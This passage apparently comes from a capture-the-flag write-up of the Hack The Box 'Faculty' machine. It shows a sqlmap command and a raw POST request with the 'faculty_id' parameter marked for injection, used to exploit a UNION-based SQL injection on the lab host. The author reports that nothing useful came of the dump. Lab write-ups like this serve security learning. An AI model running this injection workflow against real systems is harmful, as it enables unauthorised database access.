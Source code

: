 sqlmap from another UNION based sql injection in `/admin/ajax.php?action=get_schecdule` in "faculty_id" param, but nothing interesting found from database: `sqlmap -r req --batch --dbms=mysql --level 3 -t 20`

* request found while logging-in as faculty
  
  ![](screenshots/faculty-login.png)

```bash
POST /admin/ajax.php?action=get_schecdule HTTP/1.1
Host: faculty.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 36
Origin: http://faculty.htb
DNT: 1
Connection: close
Referer: http://faculty.htb/index.php
Sec-GPC: 1

faculty_id=*
```

